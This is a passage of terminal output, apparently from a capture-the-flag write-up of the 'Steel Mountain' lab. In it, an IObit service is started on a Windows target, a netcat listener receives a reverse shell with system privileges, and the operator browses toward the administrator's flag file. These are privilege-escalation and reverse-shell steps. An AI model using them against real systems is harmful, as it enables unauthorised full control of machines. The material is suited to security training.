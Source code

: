 ```
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 5036
        FLAGS              : 

C:\Program Files (x86)\IObit>


┌──(kali㉿kali)-[~/Downloads/steel_mountain]
└─$ nc -nlvp 4443        
listening on [any] 4443 ...
connect to [10.11.81.220] from (UNKNOWN) [10.10.24.125] 49352
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cat 'c:\users\administrator\desktop\root.txt'
cat 'c:\users\administrator\desktop\root.txt'
'cat' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows\system32>more 'c:\users\administrator\desktop\root.txt'
more 'c:\users\administrator\desktop\root.txt'
Cannot access file C:\Windows\system32\'c:\users\administrator\desktop\root.txt'

C:\Windows\system32>cd 'c:\users\administrator\desktop\'
cd 'c:\users\administrator\desktop\'
The filename, directory name, or volume label syntax is incorrect.

C:\Windows\system32>cd ..\..    
cd ..\..

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\

10/12/2020  12:06 PM         3,162,859 EC2-Windows-Launch.zip
09/26/2019  07:17 AM    <DIR>          inetpub
10/12/2020  12:06 PM            13,182 install.ps1
08/22/2013  08:52 AM    <DIR>          PerfLogs
09/29/2019  05:42 PM    <DIR>          Program Files
09/29/2019  05:46 PM    <DIR>          Program Files (x86)
09/26/2019  11:29 PM    <DIR>          Users
10/12/2020  12:09 PM    <DIR>          Windows
               2 File(s)      3,176,041 bytes
               6 Dir(s)  44,151,877,632 bytes free

C:\>cd Users
cd Users
```